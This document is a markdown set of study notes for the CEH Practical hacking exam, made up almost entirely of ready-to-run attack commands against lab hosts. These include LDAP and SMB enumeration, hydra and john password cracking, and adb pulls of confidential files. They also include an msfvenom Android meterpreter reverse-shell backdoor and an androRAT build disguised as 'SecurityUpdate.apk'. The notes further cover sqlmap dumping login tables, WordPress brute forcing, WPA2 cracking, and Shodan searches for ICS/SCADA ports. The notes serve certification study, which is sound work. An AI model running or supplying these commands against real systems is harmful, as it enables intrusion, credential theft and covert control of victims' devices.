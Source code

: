# **CEH Practical Notes**

Geolocation BillCipher

```
nmap --script vuln xx.xx.xx.xx

https://nvd.nist.gov
```

```
ldapsearch -h 10.10.10.25 -x -s base namingcontexts
ldapsearch -h 10.10.10.25 -x -b "cn=users,dc=CEHORG,dc=COM" "(objectclass=user)" | grep dn 
ldapsearch -x -b "dc=cehorg,dc=com" "*" -h 10.10.10.25 | awk '/dn: / {print $2}' 
```

dig AXFR yourdomain.com @ns


FQDN/Netbios name	nmap -p 445 --script smb-os-discovery 10.10.10.25 or nmap -T4 -p 445 -sC 10.10.10.25

DNS Computer Name	3389

SMB Message signing	nmap -T4 -p 445 -sC 10.10.10.25

whatweb www.certifiedhacker.com

```
john --format=NT hashes.txt
john --show --format=NT

https://hashes.com/en/decrypt/hash
https://crackstation.net/
```

```
cd Desktop/CEHtab13
cd Wordlist
hydra -L Usernames.txt -P Passwords.txt ftp://172.16.0.12
```

**Wireshark filters** 
```
http.request.method==POST
tcp.flags.syn == 1 and tcp.flags.ack == 0  Statistics=>Ipv4 Statistics=>Source and Destination Addresses
tcp.flags.syn == 1 DoS 
tcp.srcport == 8888 and tcp.dstport == 9999
```
```
snow.exe -C -p password Confidential.txt
```

```
apt install nfs-common
showmount -e 172.16.0.11
mkdir -p /mnt/linux
mount -t nfs 172.16.0.11:/home /mnt/linux
ls -l /mnt/linux
```

PhoneSploit
4 - shell

9 - copy file /storage/self/primary/DCIM/capture.png or /sdcard/Download/confidential.txt

```
adb connect 172.16.0.21 5555
adb shell
adb pull /sdcard/Documents/confidential.txt
```
```
msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 R > Desktop/Backdoor.apk 

msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 10.10.1.13
exploit -j -z 

```
```
python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk 
python3 androRAT.py --shell -i 0.0.0.0 -p 4444 
```
```
https://www.sisik.eu/apk-tool
```
yersinia F2 x 1 q ==>Wireshark Transaction ID 0x643c9869

```
sqlmap --batch -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" --dbs
sqlmap --batch -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope --tables
sqlmap --batch -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope -T User_Login --dump
```

wpscan -U adam -P password.txt --url http://cehorg.com
```
msfconsole
use auxiliary/scanner/http/wordpress_login_enum
show options
set PASS_FILE password.txt
set RHOST 10.10.10.16
set RPORT 80
set TARGETURI http://cehorg.com
set USERNAME adam
set ENUMERATE_USERNAMES false
set verbose false
run
```
```
aircrack-ng WEP.pcap
aircrack-ng -a2 -w passwords.txt WPA2.pcap
```
```
https://www.shodan.io 
port:1883 ==> MQTT
ICS/SCADA systems port:502
```

